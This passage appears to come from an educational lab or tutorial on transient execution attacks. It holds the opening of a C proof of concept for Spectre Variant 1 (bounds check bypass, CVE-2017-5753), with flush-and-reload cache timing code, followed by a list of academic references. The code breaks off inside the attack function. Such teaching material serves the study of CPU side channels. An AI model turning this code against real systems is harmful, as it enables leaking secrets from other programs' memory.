 In the following program, assume the attacker already knows the address of the secret. The training procedure done in the <code>spectreAttack()</code> function is also called *branch direction mistraining* by some of the security researchers.
```c
/* SpectreAttack.c */
/* Spectre Variant 1 (CVE-2017-5753): Bounds Check Bypass */
#include <x86intrin.h>
#include <stdio.h>

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t array[256 * 4096];
uint8_t temp = 0;
char *secret = "St. Louis County recorded a total of 4,159 violent crimes in 2021!";

/* Sandbox Function */
uint8_t restrictedAccess(size_t x)
{
    if (x < buffer_size) {
        return buffer[x];
    } else {
        return 0;
    }
}

void flushSideChannel()
{
    int i;

    /* Write to array to bring it to RAM to prevent COW */
    for (i = 0; i < 256; i++) {
        array[i * 4096 + DELTA] = 1;
    }
    /* Flush the values of the array from cache */
    for (i = 0; i < 256; i++) {
       _mm_clflush(&array[i * 4096 + DELTA]);
    }
}

void reloadSideChannel()
{
    unsigned int junk = 0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;
    int i;
    for (i = 0; i < 256; i++) {
        addr = &array[i * 4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD) {
            printf("array[%d * 4096 + %d] is in cache!\n", i, DELTA);
            printf("The secret is %d.\n", i);
        }
    }
}

void spectreAttack(size_t larger_x)
{
    int i;
    uint8_t s;
```

[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.